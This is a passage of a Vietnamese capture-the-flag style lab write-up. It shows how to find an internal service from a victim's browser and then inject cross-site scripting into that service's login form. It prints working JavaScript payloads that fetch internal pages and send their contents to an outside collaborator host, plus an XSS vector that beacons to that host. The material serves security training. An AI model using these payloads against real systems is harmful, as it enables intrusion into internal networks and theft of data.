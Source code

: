 ```javascript!
		if(q.length) {
			q.shift()(wait);
		}
	}, wait);
}
</script>
```

![image](https://hackmd.io/_uploads/HJpL03Gap.png)

Lưu payload vào exploit-server rồi Deliver exploit to victim. Kết quả địa chỉ IP của internal service cần tìm là `192.168.0.235:8080`.

![image](https://hackmd.io/_uploads/SJJUT2GT6.png)

- Decode mã nguồn trả về ta thấy ứng dụng internal này có form login tại `http://192.168.0.235:8080/login`.

![image](https://hackmd.io/_uploads/rkXkChGap.png)

- Thử login ứng dụng internal bằng payload sau và xem response trả về.

```javascript!
<script>
var collaboratorURL = 'http://vutd7wsn1w8itz4bl0yqhbjhm8szgp4e.oastify.com';

function fetchUrl(url) {
	fetch(url).then(r => r.text().then(text => {
		location = collaboratorURL + '?code='+encodeURIComponent(text);
	}))
}

fetchUrl('http://192.168.0.235:8080/login?username=test&password=test');
</script>
```

![image](https://hackmd.io/_uploads/Byhs0nGTa.png)

![image](https://hackmd.io/_uploads/BkCiJpGaT.png)

thấy giá trị của các param username và password đã được điền vào form login

vì chúng ta ko biết tài khoản và mật khẩu của admin nên chúng ta không thể vượt qua cơ chế xác thực này nhưng với XSS thì sẽ khác vì khi chèn được XSS vào từ mạng internal của server nó sẽ hiểu như là đoạn script của server vì cùng origin và bypass được qua cơ chế xác thực

- tiếp theo truyền payload XSS vào `username : "><img src='+collaboratorURL+'?foundXSS=1>`. Nếu XSS thành công thì sẽ có request đến collaborator chứa tham số foundXSS=1.

```javascript!
<script>
function xss(url, text, vector) {
	location = url + '/login?username='+encodeURIComponent(vector)+'&password=test';
}

function fetchUrl(url, collaboratorURL){
	fetch(url).then(r => r.text().then(text => {
		xss(url, text, '"><img src='+collaboratorURL+'?foundXSS=1>');
	}))
}

fetchUrl("http://192.168.0.235:8080", "http://vutd7wsn1w8itz4bl0yqhbjhm8szgp4e.oastify.com");
</script>
```
